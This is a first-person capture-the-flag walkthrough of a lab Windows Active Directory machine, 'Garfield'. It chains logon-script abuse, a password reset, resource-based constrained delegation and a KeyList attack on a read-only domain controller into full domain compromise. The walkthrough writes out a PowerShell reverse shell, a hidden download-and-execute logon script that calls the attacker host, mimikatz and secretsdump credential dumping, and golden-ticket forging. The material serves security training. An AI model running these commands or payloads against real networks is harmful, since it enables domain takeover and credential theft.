- Machine Name: Garfield
- OS Type: Windows (AD)
- Difficulty: Hard

## Port Scanning - Service & Version Enumeration

we’ll first scan the target IP for open ports and running services

```bash
# Nmap 7.98 scan initiated Sun Apr  5 10:51:40 2026 as: /usr/lib/nmap/nmap -p- --open -Pn -sVC -vv -oN nmap.out 10.129.22.167
Nmap scan report for 10.129.22.167
Host is up, received user-set (0.19s latency).
Scanned at 2026-04-05 10:51:41 IST for 716s
Not shown: 65513 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-04-05 13:31:57Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
2179/tcp  open  vmrdp?        syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2026-04-05T13:33:33+00:00; +8h00m03s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: GARFIELD
|   NetBIOS_Domain_Name: GARFIELD
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: garfield.htb
|   DNS_Computer_Name: DC01.garfield.htb
|   DNS_Tree_Name: garfield.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-04-05T13:32:52+00:00
| ssl-cert: Subject: commonName=DC01.garfield.htb
| Issuer: commonName=DC01.garfield.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-13T01:10:36
| Not valid after:  2026-08-15T01:10:36
| MD5:     1d54 628d c6bd 0ef0 98e8 6fe7 ed23 3178
| SHA-1:   6a3b 9a1d cd3f 0006 7f71 f340 cefb 59b8 b2e9 5041
| SHA-256: f7cc 022a 49f7 12ba 7bf1 ba5e 4d55 723c c89b 0f9e e9cc 1e29 9d2b 8d7e 36f3 c999
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQRWjBnxmhFpRL9DZFFlNNGzANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFEQzAxLmdhcmZpZWxkLmh0YjAeFw0yNjAyMTMwMTEwMzZaFw0y
| NjA4MTUwMTEwMzZaMBwxGjAYBgNVBAMTEURDMDEuZ2FyZmllbGQuaHRiMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAudwNMshQBO3zq1/pE8+nBxwGxJ1l
| SyyT5cTIhNDVGOj1kvnrvbksT07EV+vqMFnCrp1d4CAwvOqCGFuPPoVw2X6oEM3C
| Hk3WdpoAGDuSUSNSvfketGhPiPjD0mbRUl0/TLqDu0shOL1D7q1IXHh4H/S7Rqgd
| GXUs7jQ19RryyVJ6fbH1aoZrg2JATrlpzAh9u77upPVhK2omeTyEz9PNxeElbb8j
| 22YgC9WjR+YSwQcq9xjMNS+8Bf2MwF9ltPYp3M8PKMO6Ib93EvWfbkQ75gxB1CJ+
| UJo85i8/N1L5ZvfkDP5UkBkGKiaWDfIqx+RlpUuOt5Y98N/szT08l+YQBQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBACOttD+PBn41TyIk0Fr5ISoHzalcZLFhWwVpmJKvGPwEEj+2o3JI
| yZgV0kVinOLCkEY2O+N95iWNcbc0jTkmkhHmfTyNZ2mA4P0Dxd+TVnBzUleL8Tjm
| Rm8s53SBxncdtykSulWbszQLLgRy09EBapw2JHNpWG9p0ymPqW3uBGcJXfsZ3hif
| +xIeWo+aXoJfSG4F+ptBxRMJ7OGr+q4jQh84VUi5tLUXtHvxJMuM/LPgNVkEsYFU
| yNeT8ukEDEdMTVAYWeftXPMfAbdDX1Ptr0JCeLW5VFWrql9EszHXs4nCvoBg9iSj
| 7ipPJi99f+g9vL4srEEeQxsVGlv/RZ85Bj4=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49900/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
61930/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 8590/tcp): CLEAN (Timeout)
|   Check 2 (port 15919/tcp): CLEAN (Timeout)
|   Check 3 (port 49658/udp): CLEAN (Timeout)
|   Check 4 (port 26194/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 8h00m02s, deviation: 0s, median: 8h00m02s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-04-05T13:32:52
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr  5 11:03:37 2026 -- 1 IP address (1 host up) scanned in 716.73 seconds

```

we are provided with the password so first we’ve checked the SMB, LDAP for any useful information but we didn’t get anything useful. but we found 1 logon script:

```bash
nxc smb 10.129.244.207 -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --shares
```



let’s use the spider_plus module of the NXC to get the files/folders inside the hsahre

```bash
nxc smb 10.129.244.207 -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --share NETLOGON -M spider_plus
```



we can check the metadata json file, to see the results

```sql
cat /home/kali/.nxc/modules/nxc_spider_plus/10.129.244.207.json | jq .
```



we can see that there’s printerDetect.bat file inside the NETLOGON folder

also in the SYSVOL folder 



some google search reveals 



so the printerDetect.bat file is the logon file for some user in garfield.htb domain. let’s download it and verify it’s contents

```bash
nxc smb 10.129.244.207 -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --share SYSVOL --get-file 'garfield.htb/scripts/printerDetect.bat' printerdetect.bat
```



let’s check if we can find any creds inside it



while searching for potential attack paths/vectors i came across very good article - https://medium.com/@muneebnawaz3849/writescriptpath-abuse-in-active-directory-cb5945848a51

this i the tool we are gonna use to analyze any potential attack paths

[https://github.com/topotam/adalanche](https://github.com/topotam/adalanche)

<aside>
💡

**Installation Steps:**

git clone the repo, and run ./build.sh 

</aside>

now let’s run the tool against the target server

first we collect the data and then we analyze it.

### collect data

```bash
sudo adalanche collect activedirectory --authdomain garfield.htb --username j.arbuckle --password 'Th1sD4mnC4t!@1978'  --server 10.129.244.207 --tlsmode NoTLS --port 389 --debug --domain garfield.htb --authmode simple
```



now we can analyze the routes using  (run from the same folder where you’ve collected the data)

```bash
sudo adalanche analyze 
```



we found that the user is member of IT support group and has writescript path permissions on the Liz Wilson ADM user.



also we can see that liz wilson ADM is the member of Remote management users group.

also we can see that we are having writescriptpath on liz wilson



and liz wilson is having ResetPassword on the Liz Wilson ADM user



Let’s try to get shell as Liz Wilson as we are having ForceChangePassword so we can reset the password for the liz wilson ADM and then we can do evil-winrm

shell.ps1

```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.8",4444);
$stream = $client.GetStream();
$writer = New-Object System.IO.StreamWriter($stream);
$buffer = New-Object byte[] 1024;
$encoding = New-Object System.Text.ASCIIEncoding;

while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
    $data = $encoding.GetString($buffer, 0, $i);
    $sendback = (Invoke-Expression $data 2>&1 | Out-String );
    $sendback2  = $sendback + "PS " + (Get-Location).Path + "> ";
    $sendbyte = $encoding.GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

and then we can prepare the script.bat

```bash
@echo off
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.8/shell.ps1')"
```

Now we need to upload the script to SYSVOL share

```bash
smbclient //10.129.244.207/SYSVOL -U 'garfield.htb\j.arbuckle%Th1sD4mnC4t!@1978'
```



now we need to assign logon script via scriptPath LDAP attribute, we have 2 ways we can do bloodyAD [https://www.thehacker.recipes/ad/movement/dacl/logon-script]

```bash
bloodyAD --host "10.129.244.207" -d "garfield.htb" -u "j.arbuckle" -p "Th1sD4mnC4t!@1978" set object l.wilson scriptPath -v 'script.bat'
```

but we’ll use the ldapmodify to manually do this

script.ldif

```bash
dn: CN=Liz Wilson,CN=Users,DC=garfield,DC=htb
changetype: modify
replace: scriptPath
scriptPath: script.bat
```

<aside>
💡

An **.ldif** file (***LDAP Data Interchange Format***) is **a plain-text file used to exchange, import, or export directory information between Lightweight Directory Access Protocol (LDAP) servers**, such as Active Directory or OpenLDAP. It represents directory entries and modifications as human-readable text, often used for backups, migrations, or batch updates

</aside>

now let’s use the `ldapmodify` to modify the scriptpath

```bash
ldapmodify -H ldap://10.129.244.207 -D "j.arbuckle@garfield.htb" -w 'Th1sD4mnC4t!@1978' -f script.ldif
```



and we can start python server and netcat listener on port 4444





use net user command to reset the password

```bash
net user l.wilson_adm "Hacker@123" /domain
```

but however it was not working then i’ve used the below powershell command

```bash
Set-ADAccountPassword -Identity "l.wilson_adm" -NewPassword (ConvertTo-SecureString -AsPlainText "Hacker@123" -Force) -Reset
```



let’s verify the new password

```bash
nxc winrm 10.129.244.207 -u l.wilson_adm -p 'Hacker@123'
```



let’s go we can now login to machine using evil-winrm

```bash
evil-winrm-py -i 10.129.244.207 -u l.wilson_adm -p 'Hacker@123'
```



Now we can use bloodhound-python to gather AD data

```bash
bloodhound-python -c all -d garfield.htb -u l.wilson_adm -p 'Hacker@123' -dc DC01.garfield.htb -ns 10.129.244.207
```



now we can analyze the data in bloodhound



we can see that `l.wilson_adm` is member of TIER 1 group and it has AddSelf privileges on RODC Administrators group.

now here RODC (Read-Only Domain Controller) comes into play.

let’s check if we can reach that machine or not



we can see that it is on internal network 



now we need to setup the tunnel using ligolo to reach RODC01 machine which is on the internal network.

let’s upload the agent.exe using evil-winrm

```bash
upload /home/kali/tools/ligolo/agent.exe .
```



we can start proxy on the kali machine

```bash
sudo /home/kali/tools/ligolo/proxy --selfcert
```

and from DC01 machine we can connect to it

```bash
Start-Process -NoNewWindow -FilePath "\Users\l.wilson_adm\Documents\agent.exe" -ArgumentList "-connect 10.10.14.8:11601 -ignore-cert"
```



use autoroute command





now let’s verify if we can reach to RODC01 machine or not



let’s add the entry in /etc/hosts file

```bash
nxc smb 192.168.100.2 --generate-hosts-file rodc.hosts
```

```bash
cat rodc.hosts | sudo tee -a /etc/hosts
```

let’s use the netexec to verify if the l.wilson_adm is able to login to RODC01 or not

```bash
nxc smb RODC01 -u l.wilson_adm -p Hacker@123
```



now we can use the bloodyAD to add the l.wilson_adm user to RODC Administrators group

```bash
bloodyAD --host 10.129.244.207 -d garfield.htb -u l.wilson_adm -p Hacker@123 add groupMember "CN=RODC ADMINISTRATORS,CN=USERS,DC=GARFIELD,DC=HTB" "l.wilson_adm"
```



i thought we have to get the Administrator access on the RODC01 machine and that’s it



but it didn’t work, so let’s check if we are having winrm to RODC01 machine

```bash
nxc winrm RODC01 -u l.wilson_adm -p Hacker@123
```



i’ve logged in as l.wilson_adm user but didn’t get anything useful, let’s go back to bloodhound and check any other interesting attack paths



we can see that we are having WriteAccountRestriction Privilege over RODC01 machine

https://specterops.io/blog/2025/10/01/writeaccountrestrictions-war-what-is-it-good-for/



so we can do RBCD over the RODC01 machine

first we need to add the Machine account

```bash
impacket-addcomputer -computer-name '0xh3x$' -computer-pass 'Hacker@123' -dc-host 10.129.244.207 -domain-netbios GARFIELD.HTB 'garfield.htb/l.wilson_adm:Hacker@123'
```



We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's [rbcd.py](http://rbcd.py/) script can be used for that purpose:

```bash
impacket-rbcd -delegate-from '0xh3x$' -delegate-to 'RODC01$' -action 'write' 'garfield.htb/l.wilson_adm:Hacker@123'
```



now we can request the service ticket and impersonate the Administrator user

```bash
impacket-getST -spn 'cifs/RODC01.garfield.htb' -impersonate 'administrator' 'garfield.htb'/'0xh3x$':'Hacker@123' -dc-ip 10.129.244.207
```



now we can use the impacket-psexec 

```bash
impacket-psexec -k -no-pass GARFIELD.HTB/administrator@RODC01.garfield.htb
```



now let’s get the flag from the Administrator user’s desktop.

but i didn’t find any flag on the Administrator desktop possibly the flag is on the DC01 machine.

let’s use the secretsdump to dump the hashes of the users from RODC01 

```bash
	impacket-secretsdump -k -no-pass GARFIELD.HTB/administrator@RODC01.garfield.htb
```

but didn’t get anything useful after some research i came across the below article which introduce us to new attack called KeyList attack.

https://specterops.io/blog/2023/01/25/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc



Further research lead us to - https://www.thehacker.recipes/ad/movement/credentials/dumping/kerberos-key-list

but for attack we requires some of the things, AES key of the kerberos account, krbtgt account number.

again i logged into the RODC01 and found mimikatz.exe under svc_ldap user’s directory



now i’ve tried to dump the Hash using mimikatz but i am not able to get the hash of krbtgt account

let’s check the user’s name using `net user`command



what if we do the dcsync to get only krbtgt_8245 account hash

i’ve tried to do that as well but it was not working.



then in article i found that we can not perform DCSync from the RODC

more googling and researching lead us to - https://0xpthree.gitbook.io/notes/active-directory/dacl-abuse/rights-on-rodc-object

it says:

> With administrative control over the [RODC](https://www.thehacker.recipes/ad/movement/domain-settings/rodc) computer object in the Active Directory, there is a path to fully compromise the domain. It is possible to modify the RODC’s `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` attributes to allow a Domain Admin to authenticate and dump his credentials via administrative access over the RODC host.
> 

```bash
bloodyAD --host "10.129.244.207" -d "garfield.htb" -u "l.wilson_adm" -p "Hacker@123" get object 'RODC01$' --attr msDS-RevealOnDemandGroup
```



now let’s add the administrator to msDs-RevealOnDemandGroup

```bash
bloodyAD --host "10.129.244.207" -d "garfield.htb" -u "l.wilson_adm" -p "Hacker@123" set object 'RODC01$' msDS-RevealOnDemandGroup -v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb' -v 'CN=Administrator,CN=Users,DC=garfield,DC=htb'
```



now let’s check if Administrator user is added into the group

```bash
bloodyAD --host "10.129.244.207" -d "garfield.htb" -u "l.wilson_adm" -p "Hacker@123" get object 'RODC01$' --attr msDS-RevealOnDemandGroup
```



however after many attempts it was not working so i’ve asked gemini and it gives useful command

```bash
repadmin /rodcpwdrepl RODC01.garfield.htb DC01.garfield.htb CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb
```



still not able to dump the Hash, after some more research i found 



```bash
mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_8245" "exit"
```



now let’s use the commands from the - https://specterops.io/blog/2023/01/25/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc/

first we need to transfer the Rubeus to target machine, to make it easy i’ll use the wmiexec

```bash
impacket-wmiexec -k -no-pass GARFIELD.HTB/administrator@RODC01.garfield.htb
```

and then use the lput command

```bash
lput /home/kali/tools/Rubeus.exe .
```

now we can craft our command, we can get the domain SID from the bloodhound ;)

```bash
Rubeus.exe golden /rodcNumber:8245 /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /user:Administrator /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357 /outfile:\temp\ticket.kirbi
```





now we can use this Administrator ticket to get the NTLM hash of the Administrator

here i was struggling to get Administrator Hash



then i get help from 1 guy from discord he says it is related to Rubeus version

```bash
Rubeus.exe asktgs /enctype:aes256 /keyList /service:krbtgt/garfield.htb /dc:dc01.garfield.htb /ticket:\temp\ticket_2026_04_19_19_30_08_Administrator_to_krbtgt@GARFIELD.HTB.kirbi
```



let’s check this hash against the DC01

```bash
nxc smb DC01 -u  Administrator -H EE238F6DEBC752010428F20875B092D5
```



let’s use the evil-winrm to login to DC01 as Administrator

```bash
evil-winrm-py -i DC01 -u  Administrator -H EE238F6DEBC752010428F20875B092D5
```

